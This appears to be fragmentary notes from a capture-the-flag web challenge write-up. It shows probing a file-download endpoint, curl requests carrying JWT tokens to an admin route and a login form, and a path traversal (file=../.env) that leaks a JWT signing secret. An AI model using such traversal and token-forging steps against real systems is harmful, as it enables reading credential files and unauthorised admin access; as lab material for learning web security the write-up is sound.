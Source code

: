 http://chall.csivit.com:30215/getFile?file=test

No such file or directory: /app/public/test

http://chall.csivit.com:30215/getFile?file=index.js

File name too big

Files only up to 7 characters are allowed

http://chall.csivit.com:30215/getFile?file=

Param Undefined Error: file=.

getFile=admins

csivitu/authorized_users/blob/master

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBmdml2Z2giLCJwYXNzd29yZCI6InBmdml2Z2giLCJhZG1pbiI6InNueWZyIiwiaWF0IjoxNTk1MzEwNDQyfQ.csigIFV5BaAdSnX67jxl2VbKTU4ILTpIFNUU6osifOk
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im95Ym8iLCJwYXNzd29yZCI6Im95Ym8iLCJhZG1pbiI6InNueWZyIiwiaWF0IjoxNTk1MzEwNTQzfQ.g5OXu7b-2iLKhlAZjz1o_wDGaTGBPCLYLhGx5elUXbA

curl 'http://chall.csivit.com:30215/admin' -H 'token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBmdml2Z2giLCJwYXNzd29yZCI6InBmdml2Z2giLCJhZG1pbiI6InNueWZyIiwiaWF0IjoxNTk1MzEwNDQyfQ.csigIFV5BaAdSnX67jxl2VbKTU4ILTpIFNUU6osifOk'

curl 'http://chall.csivit.com:30215/login' --data-raw 'username=ebrebuna&password=ebrebuna&admin=gehr'


getFile?file=../.env
JWT_SECRET=Th1sSECr3TMu5TN0Tb3L43KEDEv3RRRRRR!!1

